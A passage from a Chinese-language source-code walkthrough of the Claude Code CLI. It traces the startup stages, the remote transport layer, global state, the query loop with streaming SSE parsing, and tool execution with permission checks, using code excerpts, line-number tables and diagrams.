最终调用 `launchRepl(root, appProps, replProps, renderAndRun)` 启动 REPL。`launchRepl` 在第 3134/3176/3242/3338/3487/3733/3798 行被多处调用，覆盖 continue/resume、direct-connect、SSH、teleport、fresh 等多种交互场景。

`src/replLauncher.tsx`（仅 22 行）是极简启动器：

```tsx
export async function launchRepl(root, appProps, replProps, renderAndRun) {
  const { App } = await import('./components/App.js');
  const { REPL } = await import('./screens/REPL.js');
  await renderAndRun(root, <App {...appProps}><REPL {...replProps} /></App>);
}
```

App 与 REPL 均动态 import，避免在启动早期加载完整的 React 组件树。`renderAndRun` 由 `interactiveHelpers.ts`（第 92 行 import）提供，负责 Ink 挂载与主循环。

### 7.3 非交互式入口

非交互式分支（`main.tsx:2585`）的流程：

1. 第 2587-2588 行：stream-json/json 输出时 `setHasFormattedOutput(true)`
2. 第 2593 行：`applyConfigEnvironmentVariables()`（信任隐含）
3. 第 2597 行：`initializeTelemetryAfterTrust()`
4. 第 2607 行：`processSessionStartHooks('startup')`
5. 第 2824-2827 行：`const { runHeadless } = await import('src/cli/print.js')`
6. 第 2829 行：`void runHeadless(inputPrompt, getState, setState, commandsHeadless, tools, ...)`

`runHeadless` 位于 `src/cli/print.ts` 第 455 行，约 5000 行的实现承载了 MCP 连接、agent 定义加载、权限工具、thinking 配置、teleport、sdkUrl、resume、预算/turns 限制等全部非交互逻辑。

### 7.4 StructuredIO vs RemoteIO

非交互模式内还有一层分发（`src/cli/print.ts` 第 5199 行 `getStructuredIO()`）：

```ts
return options.sdkUrl
  ? new RemoteIO(options.sdkUrl, inputStream, options.replayUserMessages)
  : new StructuredIO(inputStream, options.replayUserMessages);
```

- 无 `--sdk-url`：本地 `StructuredIO`，stdin 读 NDJSON、stdout 写 NDJSON
- 有 `--sdk-url`：`RemoteIO`（remote/bridge 模式），通过传输层连接远端会话

### 7.5 --init-only 快速退出

`--init-only`（第 2572-2582 行）是一个特殊路径：只跑 Setup hooks（init）+ SessionStart（startup），强制同步执行后立即 `gracefulShutdownSync(0); return`。它用于在 CI 中预先初始化环境而不进入对话。


```mermaid
flowchart TD
    ACTION[main.tsx action handler] --> KAIROS{kairos/assistant?}
    KAIROS -->|是| ASSIST[assistant 处理]
    KAIROS -->|否| OPTS[选项解构/worktree/teammate]
    ASSIST --> OPTS
    OPTS --> CFG[applyConfigEnvironmentVariables]
    CFG --> SETUP[await setup 设置 cwd/worktree/hooks/权限]
    SETUP --> CMD[getCommands + agentDefinitions 并行]
    CMD --> INTER{isNonInteractiveSession?}
    INTER -->|否 交互式| ROOT[createRoot + showSetupScreens]
    ROOT --> LAUNCH[launchRepl 各分支]
    LAUNCH --> REPL[renderAndRun App+REPL]
    INTER -->|是 非交互| TELEM[initializeTelemetryAfterTrust]
    TELEM --> DEFER[startDeferredPrefetches]
    DEFER --> HEADLESS[import runHeadless]
    HEADLESS --> SIO[getStructuredIO]
    SIO --> SSDK{有 sdkUrl?}
    SSDK -->|否| LOCAL[StructuredIO stdin/stdout NDJSON]
    SSDK -->|是| REM[RemoteIO 传输层]
```

## 第 8 章 引导三阶段

Claude Code 的引导过程是**严格三阶段**的，顺序至关重要，不可打乱。这三个阶段分别在模块顶层副作用、`init()`、`setup()` 中完成。

### 8.1 阶段 0：模块顶层副作用

在 `src/main.tsx` 第 1-20 行，所有 import 之前执行：

1. `profileCheckpoint('main_tsx_entry')` —— 启动剖析打点
2. `startMdmRawRead()` —— 触发 MDM（移动设备管理）子进程（plutil/reg query），与后续 import **并行**
3. `startKeychainPrefetch()` —— macOS 钥匙串预取（OAuth + 旧 API key），避免 `init()` 中同步读取阻塞约 65ms

这一阶段的核心思想是**把耗时的系统调用提前到模块加载阶段并行启动**，使其与 TypeScript 编译/加载过程重叠，从而隐藏延迟。

### 8.2 阶段 1：init()

`src/entrypoints/init.ts` 的 `init()`（第 57 行，memoize 单次）由 Commander 的 `preAction` hook 调用（`main.tsx:916`），在任何命令 action 之前执行。它的职责是配置系统、网络、遥测的基础初始化：

| 操作 | 行号 | 说明 |
|---|---|---|
| `enableConfigs()` | 65 | 校验并启用配置系统 |
| `applySafeConfigEnvironmentVariables()` | 74 | 信任前仅应用安全 env 变量 |
| `applyExtraCACertsFromConfig()` | 79 | NODE_EXTRA_CA_CERTS，须在首次 TLS 前应用 |
| `setupGracefulShutdown()` | 87 | 注册退出清理 |
| 异步并行 `initialize1PEventLogging()` + GrowthBook | 94-105 | 1P 事件日志 + 特性门控 |
| `populateOAuthAccountInfoIfNeeded()` | 110 | OAuth 账号信息缓存 |
| `initJetBrainsDetection()` / `detectCurrentRepository()` | 114/118 | 异步缓存预热 |
| `initializeRemoteManagedSettingsLoadingPromise()` / `initializePolicyLimitsLoadingPromise()` | 123-128 | 企业远程设置/策略 |
| `recordFirstStartTime()` | 132 | 记录首次启动时间 |
| `configureGlobalMTLS()` + `configureGlobalAgents()` | 137/146 | 全局 mTLS/代理 |
| `preconnectAnthropicApi()` | 159 | 预连 TCP+TLS（~100-200ms 重叠）|
| CCR 上游代理 | 167-183 | `CLAUDE_CODE_REMOTE` 时 `initUpstreamProxy` |
| `setShellIfWindows()` | 186 | Windows shell 设置 |
| `registerCleanup(shutdownLspServerManager)` | 189 | LSP 清理注册 |
| `initializeTelemetryAfterTrust()` | 247 导出 | 信任后初始化 OTel，延迟加载约 400KB |
| `setMeterState()` | 305 | lazy-load instrumentation，创建 attributed counters |

### 8.3 阶段 1.5：preAction hook 其余

`preAction` hook 在 `init()` 之后还做（`main.tsx:907-966`）：

- `Promise.all([ensureMdmSettingsLoaded(), ensureKeychainPrefetchCompleted()])`（第 914 行）—— 等待阶段 0 启动的并行任务完成
- `init()`（第 916 行）
- `process.title = 'claude'`（第 923 行）
- `initSinks()`（第 934 行）—— 附加日志/分析 sink，排空排队事件
- `--plugin-dir` 处理（第 945-949 行）：`setInlinePlugins`
- `runMigrations()`（第 950 行）—— 配置迁移
- `void loadRemoteManagedSettings()` / `void loadPolicyLimits()`（第 957-958 行）—— 非阻塞
- `void uploadUserSettingsInBackground()`（第 964 行，`UPLOAD_USER_SETTINGS` gate）

### 8.4 阶段 2：setup()

`src/setup.ts` 的 `setup()`（第 56 行）在 action handler 内、信任建立之后调用（`main.tsx:1927`）。它的职责是 cwd、worktree、hooks、权限：

| 操作 | 行号 | 说明 |
|---|---|---|
| Node 版本校验 | 70 | 需 ≥18 |
| `switchSession(customSessionId)` | 83 | 会话切换 |
| UDS messaging server | 95-101 | `startUdsMessaging`（UDS_INBOX）|
| teammate 快照 | 105 | `captureTeammateModeSnapshot` |
| iTerm2/Terminal.app 备份恢复 | 115-158 | 仅交互 |
| `setCwd(cwd)` | 161 | **必须在任何依赖 cwd 的代码前** |
| `captureHooksConfigSnapshot()` | 166 | 钩子配置快照 |
| `initializeFileChangedWatcher` | 172 | 文件变更监听 |
| worktree 创建 | 176-285 | `createWorktreeForSession` + 可选 tmux，chdir，`setProjectRoot` |
| 后台任务 | 293-302 | `initSessionMemory`、contextCollapse |
| `lockCurrentVersion()` | 303 | 版本锁定 |
| 插件预取 | 321-329 | |
| attribution hooks | 350 | |
| sessionFileAccessHooks | 362 | |
| team memory watcher | 365 | `startTeamMemoryWatcher` |
| `initSinks()` + `logEvent('tengu_started')` | 371/378 | 最早可靠的"进程已启动"信标 |
| `prefetchApiKeyFromApiKeyHelperIfSafe` | 380 | |
| release notes | 387 | |
| `--dangerously-skip-permissions` 安全验证 | 396-442 | 禁止 root、要求 Docker/sandbox 无网络 |
| `tengu_exit` 上一会话指标记录 | 449-476 | |

### 8.5 阶段 3：startDeferredPrefetches

首帧渲染后跑（`main.tsx:388`）：`initUser`、`getUserContext`、`prefetchSystemContextIfSafe`、tips、countFiles、analyticsGates、officialMcpUrls、modelCapabilities、settingsChangeDetector、skillChangeDetector。`--bare` 与测速模式下整体跳过（第 393-401 行）。


```mermaid
sequenceDiagram
    participant M as main.tsx
    participant T as 顶层副作用
    participant PRE as preAction hook
    participant INIT as init.ts
    participant SETUP as setup.ts
    participant ACT as action handler

    Note over M,T: 阶段0: 模块加载时
    M->>T: startMdmRawRead() 并行
    M->>T: startKeychainPrefetch() 并行
    M->>PRE: program.hook('preAction')
    PRE->>PRE: Promise.all([ensureMdmSettingsLoaded, ensureKeychainPrefetchCompleted])
    Note over PRE: 阶段1: init()
    PRE->>INIT: await init()
    INIT->>INIT: enableConfigs / 应用CA / 预连API / 配置mTLS
    INIT->>INIT: initializeTelemetryAfterTrust / setMeterState
    PRE->>PRE: initSinks / setInlinePlugins / runMigrations
    PRE->>ACT: 执行 action
    Note over ACT,SETUP: 阶段2: 信任后
    ACT->>SETUP: await setup(...)
    SETUP->>SETUP: setCwd / captureHooksConfigSnapshot
    SETUP->>SETUP: createWorktree + chdir
    SETUP->>SETUP: 后台任务 + initSinks + logEvent('tengu_started')
    Note over ACT: 阶段3: 首帧后
    ACT->>ACT: startDeferredPrefetches (initUser/getUserContext/...)
```

## 第 9 章 传输层 transports

`src/cli/transports/` 提供 SDK/remote 模式下 `RemoteIO` 与远端会话服务器的双向流传输。统一的 `Transport` 接口下有三种实现，由 `transportUtils.ts` 的 `getTransportForUrl`（第 16-45 行）按 URL 协议和环境变量选择。

### 9.1 传输选择逻辑

优先级如下：

1. `CLAUDE_CODE_USE_CCR_V2` → `SSETransport`（SSE 读 + HTTP POST 写），URL 追加 `/worker/events/stream`
2. `ws:`/`wss:` + `CLAUDE_CODE_POST_FOR_SESSION_INGRESS_V2` → `HybridTransport`（WS 读 + HTTP POST 写）
3. `ws:`/`wss:` 默认 → `WebSocketTransport`（WS 读 + WS 写）
4. 其他协议抛错

### 9.2 各传输实现

| 文件 | 行数 | 角色 |
|---|---|---|
| `WebSocketTransport.ts` | 800 | 默认全双工 WS：连接/重连（指数退避，10 分钟放弃）、keep_alive ping（10s/300s）、休眠检测（60s 阈值）、永久关闭码（1002/4001/4003）|
| `SSETransport.ts` | 711 | SSE 读 + HTTP POST 写：增量 SSE 帧解析（`parseSSEFrames`）、重连、liveness timeout 45s、永久 HTTP 码（401/403/404）、POST 重试 10 次 |
| `HybridTransport.ts` | 282 | `extends WebSocketTransport`：WS 读 + HTTP POST 写；stream_event 缓冲 100ms 批量；写委托给 `SerialBatchEventUploader`；解决 bridge 模式 fire-and-forget 并发 POST 冲突 |
| `SerialBatchEventUploader.ts` | 275 | 通用序列化批量上传器：至多 1 POST in-flight，批量 drained，失败指数退避+抖动，`maxQueueSize` 背压阻塞，`maxConsecutiveFailures` 丢弃 |
| `WorkerStateUploader.ts` | 131 | `PUT /worker` 合并上传：1 in-flight + 1 pending，顶层键 last-wins，RFC 7396 合并 metadata |
| `ccrClient.ts` | 998 | `CCRClient`/`CCRInitError`：CCR v2 心跳、epoch、状态上报、事件写入 |

### 9.3 RemoteIO 如何串起 transports

`RemoteIO extends StructuredIO`（`src/cli/remoteIO.ts:35`），构造函数（第 44 行）：

- 用 `PassThrough` 作为 inputStream 喂给父类 `StructuredIO`
- 准备 headers（Bearer session ingress token + environment-runner 版本）
- `refreshHeaders` 回调（第 74 行）动态重读 token，供重连用
- `this.transport = getTransportForUrl(this.url, headers, getSessionId(), refreshHeaders)`（第 88 行）
- `transport.setOnData` → 写入 inputStream（第 98 行）；`setOnClose` → end inputStream（第 106 行）
- CCR v2 下（第 116 行）：校验 transport 是 `SSETransport`，构造 `CCRClient` 并 `initialize()`，`restoredWorkerState` 暴露给 print.ts


```mermaid
graph LR
    PRINT[print.ts runHeadless] --> SIO[getStructuredIO]
    SIO --> DECIDE{有 sdkUrl?}
    DECIDE -->|否| LOCAL[StructuredIO<br/>stdin→NDJSON→stdout]
    DECIDE -->|是| REM[RemoteIO extends StructuredIO]
    REM --> GETT[getTransportForUrl]
    GETT --> CHK{协议 + 环境变量}
    CHK -->|CCR_V2| SSE[SSETransport<br/>SSE读 + HTTP POST写]
    CHK -->|ws + POST_V2| HYB[HybridTransport<br/>WS读 + HTTP POST写]
    CHK -->|ws 默认| WS[WebSocketTransport<br/>全双工 WS]
    SSE --> SBU[SerialBatchEventUploader]
    HYB --> SBU
    WS --> WSIO[WS 双向]
    SBU --> BATCH[序列化批量 + 背压]
```

## 第 10 章 全局状态 STATE

`src/bootstrap/state.ts`（1758 行）是全局单例 `STATE`（第 429 行 `const STATE = getInitialState()`）。文件顶部有两条醒目警告："DO NOT ADD MORE STATE HERE"（第 31 行）与"THINK THRICE BEFORE MODIFYING"（第 259 行），强调这是受控的全局可变状态。

### 10.1 启动相关核心字段

| 字段 | 行号 | 说明 |
|---|---|---|
| `originalCwd` / `projectRoot` / `cwd` | 278-279/295 | 由 `setCwd`/`setOriginalCwd`/`setProjectRoot` 设置 |
| `sessionId` | 331 | `randomUUID()`，`switchSession`（468）原子切换 |
| `isInteractive` | 300 | 默认 false，由 main.tsx:812 `setIsInteractive` 设置 |
| `clientType` | 305 | 默认 `'cli'`，由 main.tsx:834 设置 |
| `sessionSource` | 306 | `'remote-control'` 等 |
| `allowedSettingSources` | 313-319 | userSettings/projectSettings/localSettings/flagSettings/policySettings |
| `sessionIngressToken` / `oauthTokenFromFd` / `apiKeyFromFd` | 308-310 | 登录态 |
| `meter` / `sessionCounter` / `costCounter` | 321-329 | 遥测，由 `setMeter`（948）在 init 后注入 |
| `directConnectServerUrl` | 397 | `--sdk-url`/`cc://` 设置 |
| beta header latch / prompt cache 资格 | 409-417 | 会话级 sticky |

### 10.2 与 AppState 的区别

需要区分两个"状态"概念：

- **STATE**（`bootstrap/state.ts`）：引导期基础状态，进程级单例，承载 cwd/sessionId/isInteractive/clientType 等基础设施状态。
- **AppState**（`state/AppStateStore.ts`）：运行时业务状态，通过 React store + `useSyncExternalStore` 管理，承载 tools/mcp/plugins/tasks/permissions/todos/notifications 等几乎所有运行时状态。

STATE 偏"系统级、低层"，AppState 偏"业务级、UI 驱动"。两者通过 `getAppState()`/`setAppState()` 互通。

---

# 第三部分 QueryEngine 核心循环

QueryEngine 是 Claude Code 的心脏。它负责将用户的输入转化为对 Anthropic Messages API 的调用，流式接收模型响应，解析并执行模型产出的工具调用，将工具结果回填给模型，并循环直至模型不再请求工具调用。这一部分是理解整个系统运作机制的核心。

## 第 11 章 查询引擎分层架构

整个查询引擎分为三层，自顶向下：

| 层 | 文件 | 行数 | 职责 |
|---|---|---|---|
| 编排层 | `src/QueryEngine.ts` | 1295 | 会话生命周期、消息持久化、SDK 消息转换、成本预算检查、结果汇总 |
| 核心循环层 | `src/query.ts` | 1729 | 主查询循环 `queryLoop`：构造请求→流式接收→工具决策→执行→回填→下一轮、自动压缩、stop hooks、重试恢复 |
| API/执行层 | `src/services/api/claude.ts` | 3419 | 流式 SSE 解析、`withRetry` 重试；`src/services/tools/*` 工具并发执行与权限检查 |

辅助模块在 `src/query/` 目录下：

- `config.ts`：一次性快照配置（`queryConfig`），在每次 `query` 调用时构建，捕获当时的 model/gates/tools 等不可变快照。
- `deps.ts`：依赖注入，将 `callModel`/`microcompact`/`autocompact`/`uuid` 注入 queryLoop，便于测试与解耦。
- `tokenBudget.ts`：token 预算续跑逻辑。
- `stopHooks.ts`：Stop hook 处理，在每轮模型停止后触发 extractMemories/autoDream 等后台服务。

`ask()`（`QueryEngine.ts:1186`）是 `QueryEngine` 的薄封装，供一次性调用使用。


```mermaid
graph TB
    subgraph 编排层
        QE[QueryEngine.ts<br/>submitMessage/ask<br/>会话生命周期+SDK转换+预算]
    end
    subgraph 核心循环层
        Q[query.ts<br/>query → queryLoop<br/>主循环+压缩+stop hooks]
        CONFIG[query/config.ts 快照配置]
        DEPS[query/deps.ts 依赖注入]
        TB[query/tokenBudget.ts 预算续跑]
        SH[query/stopHooks.ts 停止钩子]
    end
    subgraph API执行层
        CLAUDE[services/api/claude.ts<br/>queryModelWithStreaming 流式SSE]
        RETRY[services/api/withRetry.ts 重试]
        TE[StreamingToolExecutor 流式工具执行]
        ORCH[tools/toolOrchestration.ts runTools]
        EXEC[tools/toolExecution.ts runToolUse]
    end
    QE --> Q
    Q --> CONFIG
    Q --> DEPS
    DEPS --> CLAUDE
    DEPS --> TB
    Q --> SH
    CLAUDE --> RETRY
    Q --> TE
    Q --> ORCH
    ORCH --> EXEC
    TE --> EXEC
```

## 第 12 章 核心数据结构

> 注意：`src/types/message.ts` 在本仓库快照中**不存在**（被导入为 `./types/message.js` 但文件缺失，疑为内部/生成文件）。以下类型定义从用法推断。

### 12.1 Message 联合类型

`Message` 是一个联合类型（见 `query.ts:30-39`），由多种消息类型组成：

```ts
type Message =
  | AssistantMessage
  | UserMessage
  | SystemMessage
  | AttachmentMessage
  | ProgressMessage
  | ToolUseSummaryMessage
  | TombstoneMessage
  | ...
```

### 12.2 AssistantMessage

```ts
interface AssistantMessage {
  type: 'assistant'
  message: BetaMessage        // Anthropic SDK 的消息对象
  uuid: string
  timestamp: string
  requestId: string
  isApiErrorMessage?: boolean
  apiError?: ApiError
}
```

其 `message.content` 是 `BetaContentBlock[]`，包含 `text`、`thinking`、`tool_use`、`server_tool_use` 四种块类型。这是模型响应的核心载体。

### 12.3 UserMessage

UserMessage 承载 `tool_result` 块，即工具执行结果回填给模型的形式：

```ts
interface ToolResultBlock {
  type: 'tool_result'
  content: string | ContentBlock[]
  is_error?: boolean
  tool_use_id: string
}
```

### 12.4 StreamEvent

```ts
interface StreamEvent {
  type: 'stream_event'
  event: BetaRawMessageStreamEvent  // 原始 SSE 事件透传
}
```

这是 Claude Code 流式架构的关键——它将原始 SSE 事件透传给上层（UI、SDK 消费者），让上层可以实时感知模型输出的进展。

### 12.5 State（循环跨迭代状态）

```ts
interface State {
  messages: Message[]                    // 完整消息历史
  toolUseContext: ToolUseContext        // 工具执行上下文
  autoCompactTracking: AutoCompactTracking
  maxOutputTokensRecoveryCount: number
  hasAttemptedReactiveCompact: boolean
  pendingToolUseSummary: ...
  stopHookActive: boolean
  turnCount: number
  transition: ...
}
```

### 12.6 TrackedTool（流式工具执行器内部）

`StreamingToolExecutor.ts:21-32` 定义：

```ts
interface TrackedTool {
  id: string
  block: ToolUseBlock
  assistantMessage: AssistantMessage
  status: 'queued' | 'executing' | 'completed' | 'yielded'
  isConcurrencySafe: boolean
  promise?: Promise<ToolResult>
  results?: ToolResultBlockParam[]
  pendingProgress: ProgressMessage[]
  contextModifiers?: ContextModifier[]
}
```

`ToolUseBlock`（来自 SDK）是模型产出的工具调用块：`{ type: 'tool_use', id, name, input }`。

## 第 13 章 queryLoop 主循环

`QueryEngine.submitMessage`（`QueryEngine.ts:209`）调用 `query`（`query.ts:219`），后者委托 `queryLoop`（`query.ts:241`）。`queryLoop` 是一个 `while(true)` 的异步生成器，每次迭代代表一次"模型推理 + 工具执行"的完整循环。

### 13.1 单次迭代的完整流程

以下是 `queryLoop` 单次迭代（`query.ts:307` 起 `while(true)`）的完整步骤，每步标注函数名与行号：

**步骤 0（在 QueryEngine 层已完成）**：用户输入处理。`processUserInput`（`QueryEngine.ts:416`）解析斜杠命令、附件，返回 `messagesFromUserInput / shouldQuery / allowedTools / model`。`mutableMessages.push(...)` 回填（`:431`）。

**步骤 1**：构造 system prompt。`fetchSystemPromptParts`（`:292`）+ `asSystemPrompt`（`:321`）。

**步骤 2**：进入 queryLoop 迭代。`yield { type:'stream_request_start' }`（`query.ts:337`）。

**步骤 3**：查询链追踪。`queryTracking = { chainId, depth+1 }`（`query.ts:347-355`），用于关联父子查询。

**步骤 4**：消息预处理管道（按顺序，`query.ts:365-447`）：

| 顺序 | 函数 | 行号 | 作用 |
|---|---|---|---|
| 1 | `getMessagesAfterCompactBoundary` | 365 | 取压缩边界后消息 |
| 2 | `applyToolResultBudget` | 379 | 工具结果大小预算 |
| 3 | `snipModule.snipCompactIfNeeded` | 403 | HISTORY_SNIP 历史裁剪 |
| 4 | `deps.microcompact` | 414 | `= microcompactMessages`，预压缩 token 削减 |
| 5 | `contextCollapse.applyCollapsesIfNeeded` | 441 | CONTEXT_COLLAPSE 上下文折叠 |
| 6 | `deps.autocompact` | 454 | `= autoCompactIfNeeded`，自动压缩；若触发，`buildPostCompactMessages`（`:528`）替换消息 |

**步骤 5**：构造 API 请求并发起流式调用。`deps.callModel`（`query.ts:659`，`= queryModelWithStreaming`，`claude.ts:752`），内部经 `withStreamingVCR` → `queryModel`（`claude.ts:1017`）。请求参数含 `messages/systemPrompt/thinkingConfig/tools/signal/options`，options 携带 model、fallbackModel、taskBudget、queryTracking 等。

**步骤 6**：流式接收。`for await (const message of deps.callModel(...))`（`query.ts:659`），详见第 14 章。

**步骤 7**：工具调用决策。流式过程中累积 `assistantMessages` / `toolUseBlocks` / `needsFollowUp`（`query.ts:551-558`）。若启用流式工具执行（`config.gates.streamingToolExecution`，statsig `tengu_streaming_tool_execution2`），`StreamingToolExecutor.addTool(block, message)`（`:842`）立即入队。

**步骤 8**：流式结束后工具执行（若 `needsFollowUp`，`query.ts:1380-1408`）：
- 流式路径：`streamingToolExecutor.getRemainingResults()`
- 非流式路径：`runTools(toolUseBlocks, assistantMessages, canUseTool, toolUseContext)`（`toolOrchestration.ts:19`）
- `for await (const update of toolUpdates)` 收集 `toolResults`，`normalizeMessagesForAPI` 归一化（`:1395`）

**步骤 9**：工具结果回填。`toolResults`（UserMessage 数组，含 `tool_result` 块）在 `query.ts:1716` 拼入：
```ts
next.messages = [...messagesForQuery, ...assistantMessages, ...toolResults]
```
赋给 `state` 进入下一轮。

**步骤 10**：附件/记忆/技能注入（`query.ts:1580-1628`）：`getAttachmentMessages`、`pendingMemoryPrefetch`、`skillPrefetch.collectSkillDiscoveryPrefetch`。

**步骤 11**：maxTurns 检查（`:1705`），超限则 `createAttachmentMessage({type:'max_turns_reached'})` 并返回。

**步骤 12**：`state = next; continue`（`:1727`）——下一轮迭代。

**步骤 13（无工具调用终止路径）**：当 `!needsFollowUp`（`query.ts:1062-1357`）：stop hooks（`handleStopHooks`，`:1267`）、token 预算续跑（`checkTokenBudget`，`:1309`）、`return { reason:'completed' }`。

### 13.2 QueryEngine 层消费

`QueryEngine` 通过 `for await (const message of query({...}))`（`QueryEngine.ts:675-1049`）消费 query 的输出，按 `message.type` 分发：

| message.type | 处理 | 行号 |
|---|---|---|
| `assistant` | push 到 `mutableMessages`，`yield* normalizeMessage` | 761-770 |
| `stream_event` | `updateUsage`/`accumulateUsage` 累计 token | 788-816 |
| `system` | 处理 `compact_boundary` / `api_error`（转 `api_retry`）| 897-955 |
| `attachment` | 处理 `max_turns_reached` / `structured_output` / `queued_command` | 829-893 |

每轮检查 `maxBudgetUsd`（`:972`）与结构化输出重试上限（`:1005`）。最终 `yield { type:'result', subtype:'success', ... }`（`:1135`），含 `total_cost_usd / usage / modelUsage / num_turns / stop_reason`。


```mermaid
sequenceDiagram
    participant QE as QueryEngine
    participant Q as queryLoop
    participant API as claude.ts queryModel
    participant TE as StreamingToolExecutor
    participant TOOL as 工具实现

    QE->>Q: query(messages, options)
    loop while true
        Q->>Q: 预处理: snip/microcompact/contextCollapse/autocompact
        Q->>API: callModel 流式请求
        loop 流式接收 SSE
            API-->>Q: message_start (初始usage, ttft)
            API-->>Q: content_block_delta (text/input_json/thinking 增量)
            API-->>Q: content_block_stop (产出 assistant 消息)
            Q-->>QE: yield assistant / stream_event
            alt 包含 tool_use 块
                Q->>TE: addTool 立即入队并发执行
                TE->>TOOL: runToolUse (schema→validate→hooks→perm→call)
                TOOL-->>TE: ToolResult
                TE-->>Q: yield tool_result
            end
            API-->>Q: message_delta (stop_reason, usage记账)
            API-->>Q: message_stop
        end
        alt needsFollowUp (有工具调用)
            Q->>TE: getRemainingResults 等待剩余
            Q->>Q: next.messages = [...assistant, ...toolResults]
            Note over Q: continue 下一轮
        else !needsFollowUp (终止)
            Q->>Q: handleStopHooks / checkTokenBudget
            Q-->>QE: return reason=completed
        end
    end
```

## 第 14 章 流式 SSE 响应处理

`claude.ts` 的 `queryModel`（`claude.ts:1017`）用 `withRetry` 包裹 `anthropic.beta.messages.stream(...)`，得到 `stream: Stream<BetaRawMessageStreamEvent>`，通过 `for await (const part of stream)` 遍历 SSE 事件（`claude.ts:1940-2304`）。

### 14.1 SSE 事件处理对照表

| 事件 | 行号 | 处理 |
|---|---|---|
| `message_start` | 1980 | `partialMessage = part.message`，`updateUsage` 记录初始 usage，记录 `ttftMs`（首字节时间）|
| `content_block_start` | 1995 | 按 `content_block.type`（`tool_use`/`server_tool_use`/`text`/`thinking`）初始化 `contentBlocks[part.index]`；tool_use 的 `input` 初始化为空字符串（待增量拼接）|
| `content_block_delta` | 2053 | 见下文增量解析 |
| `content_block_stop` | 2171 | 组装一个 `AssistantMessage`，`normalizeContentFromAPI` 规范化，`newMessages.push(m); yield m`——**每个 content block stop 产出一个 assistant 消息**（按块切分，关键设计）|
| `message_delta` | 2213 | `updateUsage`、`stopReason = part.delta.stop_reason`，**直接 mutate** `lastMsg.message.usage / .stop_reason`（非替换对象，保 transcript 引用，注释 `:2236`）。`calculateUSDCost` + `addToTotalSessionCost` 记账。若 `stop_reason==='max_tokens'` 或 `'model_context_window_exceeded'`，yield `max_output_tokens` 错误消息 |
| `message_stop` | 2295 | 空操作 |
| 每个事件 | 2299 | `yield { type:'stream_event', event: part }` 透传给上层 |

### 14.2 content_block_delta 增量解析

`content_block_delta` 是流式的核心，不同 delta 类型累积方式不同：

- **`input_json_delta`** → `contentBlock.input += delta.partial_json`（`:2111`）——工具 input 增量解析，模型逐 token 产出工具调用的 JSON 参数，Claude Code 拼接成完整字符串后在 `content_block_stop` 时 JSON.parse。
- **`text_delta`** → `contentBlock.text += delta.text` —— 文本增量累积。
- **`thinking_delta`** / **`signature_delta`** → thinking 块累积——扩展思考（extended thinking）的增量。

### 14.3 空闲看门狗

`claude.ts:1911-1927` 实现了流式空闲看门狗：`STREAM_IDLE_TIMEOUT_MS` 内若未收到任何 chunk，则 `releaseStreamResources()` 终止流并回退非流式重试。这防止了网络中断导致的无限挂起。

### 14.4 按块切分的设计意义

Claude Code 在每个 `content_block_stop` 就产出一个 assistant 消息，而非等整条消息结束。这是经过深思熟虑的设计决策：

1. **更早的 UI 反馈**：UI 可以在每个块完成时立即渲染，无需等待整条消息。
2. **流式工具执行的前提**：当模型输出一个 `tool_use` 块后，工具可以立即开始执行，而模型仍在流式输出后续的 `text` 或其他 `tool_use` 块。这大幅缩短了端到端延迟。
3. **transcript 粒度**：每个块独立持久化，便于回放与历史浏览。

## 第 15 章 工具调用决策与执行

### 15.1 解析与分发（流式路径）

流式产出的每个 assistant 消息：`message.message.content.filter(type==='tool_use')` 得 `msgToolUseBlocks`（`query.ts:829`），push 到 `toolUseBlocks`，设 `needsFollowUp=true`。若启用流式工具执行，`streamingToolExecutor.addTool(block, message)`（`:842`）立即入队。

**observable input 回填**（`query.ts:748-787`）：对 `tool_use` 块克隆并调用 `tool.backfillObservableInput` 添加派生字段（如 SendMessage 收件人展开），仅当新增字段时才克隆 yield。这一步**不改动 API 绑定的原始输入**以保 prompt cache 字节匹配——回填只用于 hooks 和 canUseTool 观察，不改变发给 API 的内容。

### 15.2 执行核心 runToolUse

`runToolUse`（`toolExecution.ts:337`）是工具执行的统一入口，它是一个 `AsyncGenerator<MessageUpdateLazy>`，把进度事件与最终结果汇入单一 async iterable。内部流程：

1. **找工具**（`:345-356`）：先在 `options.tools` 里按 name/alias 查（别名回退）；未找到则报 `No such tool available` 错误。
2. **abort 检查**（`:415`）：signal 已中止则返回 `CANCEL_MESSAGE`。
3. **`streamedCheckPermissionsAndCallTool`**（`:492`）：用 `Stream` 队列把 progress 事件和最终结果统一成 async iterable；内部 `checkPermissionsAndCallTool`（`:599`）执行完整的工具生命周期（见第 22 章）。
4. **工具不存在** → `&tool_use_error>No such tool available`（`:396`）。
5. **执行异常** → catch yield `Error calling tool: ...`（`:475`）。

### 15.3 结果回填

工具结果统一封装为 **UserMessage**，内含 `tool_result` 块（`tool_use_id` 关联，`is_error` 标记，`content` 为字符串或 `tool_use_error` 标签）。经 `normalizeMessagesForAPI`（`query.ts:1395`）归一化后 push 到 `toolResults`，拼入下轮 `messages`。这保持了与 Anthropic Messages API 的 tool_use/tool_result 配对语义一致。


```mermaid
sequenceDiagram
    participant Q as queryLoop
    participant TE as StreamingToolExecutor
    participant RTU as runToolUse
    participant CPACT as checkPermissionsAndCallTool
    participant HOOK as Hooks 引擎
    participant PERM as 权限系统
    participant TOOL as tool.call

    Q->>TE: addTool(block, msg) 立即入队
    TE->>TE: processQueue (并发安全工具并行)
    TE->>RTU: executeTool → runToolUse
    RTU->>CPACT: streamedCheckPermissionsAndCallTool
    CPACT->>CPACT: inputSchema.safeParse (Zod校验)
    CPACT->>CPACT: tool.validateInput (业务校验)
    CPACT->>HOOK: runPreToolUseHooks
    HOOK-->>CPACT: permissionDecision/updatedInput/additionalContext
    CPACT->>PERM: resolveHookPermissionDecision → canUseTool
    PERM-->>CPACT: allow/deny/ask
    alt allow
        CPACT->>TOOL: tool.call(input, context, onProgress)
        TOOL-->>CPACT: ToolResult
        CPACT->>TOOL: mapToolResultToToolResultBlockParam
        CPACT->>HOOK: runPostToolUseHooks
        HOOK-->>CPACT: updatedMCPToolOutput/additionalContext
        CPACT-->>RTU: tool_result block
    else deny
        CPACT-->>RTU: tool_result is_error
    end
    RTU-->>TE: yield progress + result
    TE-->>Q: getCompletedResults
    Q->>Q: toolResults → next.messages
```

## 第 16 章 工具并发模型

Claude Code 的工具并发执行有两条路径，都基于工具自声明的 **`isConcurrencySafe`**（`Tool.ts:402`）属性——工具声明自己是只读/无副作用的，即可与其他并发安全工具并行执行。

### 16.1 流式执行器 StreamingToolExecutor

`StreamingToolExecutor.ts` 是流式工具执行的核心，它允许工具在模型仍在流式输出时就并发启动：

